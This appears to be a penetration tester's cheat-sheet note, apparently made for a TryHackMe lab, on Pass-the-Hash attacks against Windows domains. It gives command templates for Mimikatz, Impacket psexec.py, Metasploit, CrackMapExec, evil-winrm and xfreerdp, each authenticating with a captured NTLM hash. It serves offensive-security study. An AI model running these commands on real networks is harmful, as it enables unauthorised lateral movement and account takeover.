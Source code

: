 #cme #mimikatz #msf #evil-winrm #xfreerdp 
# Pass The Hash
- As [NetNTLM](NetNTLM.md) is inherently flawed, the password hash can be treated as a password.
- NTLM hash can be used to directly authenticate to a domain/service
- [Mimikatz](../../Cheatsheet/Mimikatz.md) for extracting Credentials
### Mimikatz
```powershell
sekurlsa::pth /user:user.name /domain:za.tryhackme.com /ntlm:<hash> /run:<command>
```
### Impacket's PsExec.py
```bash
python psexec.py -hashes <hash> domain/username@<server/ip>
```
### Metasploit PsExec module
```
exploit/windows/smb/psexec
```
### Crackmapexec
```bash
crackmapexec smb <server/IP> -u username -H <hash>
```
### evil-winrm
```bash
evil-winrm -i <server/IP> -u <username> -H <hash>
```
### xfreerdp
```bash
xfreerdp /v:<server/IP> /u:<domain\username> /pth:<hash> 
```